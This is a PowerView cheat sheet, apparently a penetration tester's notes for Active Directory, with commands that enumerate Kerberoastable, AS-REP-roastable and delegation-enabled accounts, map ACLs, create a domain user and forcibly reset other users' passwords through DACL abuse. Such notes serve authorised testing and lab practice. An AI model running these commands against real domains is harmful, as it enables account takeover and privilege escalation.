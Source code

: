 # powerview

% ad, windows, powerview
#plateform/windows #target/remote  #cat/RECON 

## user - new domain user
```
new-domainuser -SamAccountName jubeaz -AccountPassword $SecPassword -Domain client.offshore.com
```

## User - Get ASREPRoastable users
```powershell
Get-NetUser -PreauthNotRequired
```


## User - Get Kerberoastable users
```powershell
Get-NetUser -SPN
```

## User - Find all groups our current user got access
```powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## User - Find all users our current user got access
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```


## User - Find user accounts that have kerberos constrained delegation 
```powershell
Get-NetUser -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto
```


## User - Find user accounts that have kerberos unconstrained delegation 
```powershell
Get-DomainUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
```


## User - change user password (alternate cred)
#cat/ATTACK/DACL-ABUSE 
```
$SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain_netbios>\<user>', $SecPassword)
Set-DomainUserPassword -Identity <target_user> -AccountPassword (ConvertTo-SecureString '<new_password|P@ssw0rd123>' -AsPlainText -Force) -Credential $Cred -Domain <dst_domain_fqdn>
```

## User - change user password
#cat/ATTACK/DACL-ABUSE 
```
Set-DomainUserPassword -Identity <target_user> -AccountPassword (ConvertTo-SecureString '<new_password|P@ssw0rd123>' -AsPlainText -Force) -Domain <dst_domain_fqdn>
```